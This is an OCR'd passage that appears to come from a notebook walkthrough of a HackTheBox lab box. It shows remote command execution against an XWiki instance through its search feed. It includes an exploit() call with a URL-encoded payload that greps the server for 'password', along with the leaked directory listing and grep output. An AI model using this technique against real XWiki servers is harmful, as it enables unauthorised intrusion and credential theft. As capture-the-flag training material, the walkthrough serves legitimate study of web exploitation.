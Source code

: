     [!] HTTPS not available, falling back to HTTP.
    [✔] Target supports HTTP: http://wiki.editor.htb/xwiki
    [+] Sending request to: ...
     'feed for search on [}}}total 280K<br/>drwxr-xr-x 4 0 0 4.0K Jul 29 11:48 '
     '.<br/>drwxr-xr-x 7 0 0 4.0K Jul 29 11:46 ..<br/>lrwxrwxrwx 1 0 0 '
     '&nbsp;&nbsp;16 Mar 27 &nbsp;2024 cache -&gt; /etc/xwiki/cache<br/>drwxr-xr-x '
     '2 0 0 4.0K Jul 29 11:46 classes<br/>lrwxrwxrwx 1 0 0 &nbsp;&nbsp;16 Mar 27 '
     '&nbsp;2024 fonts -&gt; /etc/xwiki/fonts<br/>lrwxrwxrwx 1 0 0 &nbsp;&nbsp;28 '
     'Mar 27 &nbsp;2024 hibernate.cfg.xml -&gt; '
     '/etc/xwiki/hibernate.cfg.xml<br/>lrwxrwxrwx 1 0 0 &nbsp;&nbsp;41 Mar 27 '
     '&nbsp;2024 jboss-deployment-structure.xml -&gt; '
     '/etc/xwiki/jboss-deployment-structure.xml<br/>lrwxrwxrwx 1 0 0 '
     '&nbsp;&nbsp;24 Mar 27 &nbsp;2024 jetty-web.xml -&gt; '
     '/etc/xwiki/jetty-web.xml<br/>drwxr-xr-x 2 0 0 264K Jul 29 11:46 '
     'lib<br/>lrwxrwxrwx 1 0 0 &nbsp;&nbsp;22 Mar 27 &nbsp;2024 observation -&gt; '
     '/etc/xwiki/observation<br/>lrwxrwxrwx 1 0 0 &nbsp;&nbsp;22 Mar 27 &nbsp;2024 '
     'portlet.xml -&gt; /etc/xwiki/portlet.xml<br/>lrwxrwxrwx 1 0 0 &nbsp;&nbsp;22 '
     'Mar 27 &nbsp;2024 sun-web.xml -&gt; /etc/xwiki/sun-web.xml<br/>lrwxrwxrwx 1 '
     '0 0 &nbsp;&nbsp;29 Mar 27 &nbsp;2024 version.properties -&gt; '
     '/etc/xwiki/version.properties<br/>lrwxrwxrwx 1 0 0 &nbsp;&nbsp;18 Mar 27 '
     '&nbsp;2024 web.xml -&gt; /etc/xwiki/web.xml<br/>lrwxrwxrwx 1 0 0 '
     '&nbsp;&nbsp;20 Mar 27 &nbsp;2024 xwiki.cfg -&gt; '
     '/etc/xwiki/xwiki.cfg<br/>lrwxrwxrwx 1 0 0 &nbsp;&nbsp;28 Mar 27 &nbsp;2024 '
     'xwiki-locales.txt -&gt; /etc/xwiki/xwiki-locales.txt<br/>lrwxrwxrwx 1 0 0 '
     '&nbsp;&nbsp;27 Mar 27 &nbsp;2024 xwiki.properties -&gt; '
     '/etc/xwiki/xwiki.properties]&lt;/title&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;link&gt;<span '
     'class="wikiexternallink"><a class="wikimodel-freestanding" '



We won't know this until a bit later, but it seems like this output is truncated.


```python
payload = urllib.parse.quote("'grep -R \"password\" /usr/lib/xwiki-jetty/'")
exploit(f'wiki.{target}/xwiki', payload)
```

    [!] HTTPS not available, falling back to HTTP.
    [✔] Target supports HTTP: http://wiki.editor.htb/xwiki
    [+] Sending request to: ...
     'feed for search on '
     '[}}}/usr/lib/xwiki-jetty/webapps/xwiki/skins/flamingo/login.vm: '
     '&nbsp;&nbsp;&nbsp;&lt;input type="password" id="j_password" size="60" '
     'name="j_password" value="" '
     'autocomplete=\'current-password\'/&gt;<br/>/usr/lib/xwiki-jetty/webapps/xwiki/skins/flamingo/less/forms.less:input[type="password"],<br/>/usr/lib/xwiki-jetty/webapps/xwiki/skins/flamingo/less/forms.less:select.input-sm, '
     'input[type="text"].input-sm, input[type="password"].input-sm '
     '&#123;<br/>/usr/lib/xwiki-jetty/webapps/xwiki/skins/flamingo/less/forms.less:select.input-lg, '
     'input[type="text"].input-lg, input[type="password"].input-lg '
     '&#123;<br/>/usr/lib/xwiki-jetty/webapps/xwiki/skins/flamingo/less/forms.less: '
     '&nbsp;input[type="password"],<br/>/usr/lib/xwiki-jetty/webapps/xwiki/skins/flamingo/less/bootstrap/<span '
     'class="wikiexternallink"><a class="wikimodel-freestanding" '
     'href="forms.less://"><span '
     'class="wikigeneratedlinkcontent">forms.less://</span></a></span> '
     'input[type="password"]]&lt;/title&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;link&gt;<span '
     'class="wikiexternallink"><a class="wikimodel-freestanding" '
